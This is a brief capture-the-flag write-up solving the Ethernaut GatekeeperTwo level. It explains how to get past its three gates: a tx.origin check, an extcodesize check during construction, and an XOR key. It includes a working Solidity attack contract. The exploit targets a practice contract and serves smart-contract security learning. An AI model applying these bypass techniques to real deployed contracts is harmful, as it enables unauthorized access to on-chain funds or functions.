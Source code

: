 gateOne: can be bypassed by using a contract so that `tx.origin != msg.sender`

gateTwo: `extcodesize` will return 0 if called from a contract's constructor

gateThree: key is `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ (uint64(0) - 1)`

```
contract GatekeeperTwo {
    function enter(bytes8 _gateKey) public returns (bool) {}
}

contract HackGatekeeperTwo {
  constructor(address instance) {
    GatekeeperTwo gk2 = GatekeeperTwo(instance);

    uint64 a = uint64(bytes8(keccak256(abi.encodePacked(this))));
    uint64 b = uint64(0) - 1;
    bytes8 key =  bytes8(a ^ b);

    gk2.enter(key);
  }
}
```
